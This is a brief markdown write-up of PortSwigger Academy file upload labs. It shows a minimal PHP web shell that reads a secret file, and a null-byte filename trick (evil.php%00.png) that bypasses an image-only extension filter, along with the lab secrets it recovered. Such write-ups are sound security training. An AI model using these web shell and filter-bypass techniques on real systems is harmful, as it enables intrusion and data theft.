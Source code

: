 # File upload vulnerabilities

Get details at [here](https://portswigger.net/web-security/file-upload)

---

[Lab 1](https://portswigger.net/web-security/file-upload/lab-file-upload-remote-code-execution-via-web-shell-upload)

Description of this lab: log in to your own account using the following credentials: wiener:peter, upload a basic PHP web shell and use it to exfiltrate the contents of the file /home/carlos/secret. Submit this secret using the button provided in the lab banner

Using this PHP script to make file evil.php

```php
    <?php 
        echo file_get_contents('/home/carlos/secret'); 
    ?>
```

Log in with wiener:peter, uploading evil.php at upload avatar. After uploading file, modify URL like `example.com/files/avatars/evil.php`, see its response `zSkiPK4JTu7lRHsDH7P0ExrgGoWZnDsr`. Go back home and submit secret, and solved the lab.

[Lab 2](#)

[Lab 3](#)

[Lab 4](#)

[Lab 5](https://portswigger.net/web-security/file-upload/lab-file-upload-web-shell-upload-via-obfuscated-file-extension)

Description of this lab: obfuscation technique to bypass defense (only upload JPG or PNG file)

It seems has filtered extension name of uploaded file, do the same as lab 1, but we need to change file name to `evil.php%00.png` (%00 meaning null (NUL in ASCII), when file is uploaded, system can not understand this, then it removes part after %00, then file name will be evil.php). We got secret `rakmOG0R8Z69H8eQEahqObm8nuSsf3r7`, go back home and submit, then solved the lab.